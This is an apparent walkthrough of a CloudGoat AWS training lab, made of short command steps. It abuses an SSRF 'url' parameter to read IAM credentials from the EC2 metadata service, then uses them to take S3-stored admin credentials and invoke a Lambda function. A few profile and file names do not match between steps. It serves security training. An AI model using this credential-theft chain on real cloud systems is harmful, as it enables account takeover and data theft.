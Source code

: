 `aws configure --profile solus`

`aws lambda list-functions --profile solus`

`aws configure --profile cglambda`

`aws ec2 describe-instances --profile cglambda`

Go to `http://<EC2 instance IP>`

Abuse the SSRF via the "url" parameter to hit the EC2 instance metadata by going to:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

And then:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>`

Then Add the EC2 instance credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[ec2role]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = "asdasdasd"
```

`aws s3 ls --profile cgec2role`

`aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>`

`aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>/aws/credentials ./`

`cat admin-user.txt`

`aws configure --profile cgadmin`

`aws lambda list-functions --profile cgadmin`

`aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt --profile cgadmin`

`cat out.txt`